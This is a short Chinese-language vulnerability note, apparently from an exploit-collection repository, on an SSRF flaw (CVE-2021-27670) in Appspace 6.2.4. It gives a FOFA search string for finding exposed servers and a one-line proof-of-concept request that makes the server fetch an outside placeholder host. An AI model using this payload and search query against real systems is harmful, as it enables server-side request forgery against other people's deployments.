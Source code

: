 # Appspace jsonprequest SSRF漏洞 CVE-2021-27670

## 漏洞描述

Appspace 6.2.4存在漏洞，允许通过api/v1/core/proxy/jsonprequest接口来进行服务端请求伪造，危害系统安全。

## 漏洞影响

```
Appspace 6.2.4
```

## FOFA

```
"Sign-in-to-Appspace-Core"
```

## 漏洞复现

登录页面为

![image-20220524140826821](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241408911.png)

验证POC

```
/api/v1/core/proxy/jsonprequest?objresponse=false&websiteproxy=true&escapestring=false&url=http://db0bx.2lfmar.yourdomain.xyz
```

![image-20220524141221709](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205241412770.png)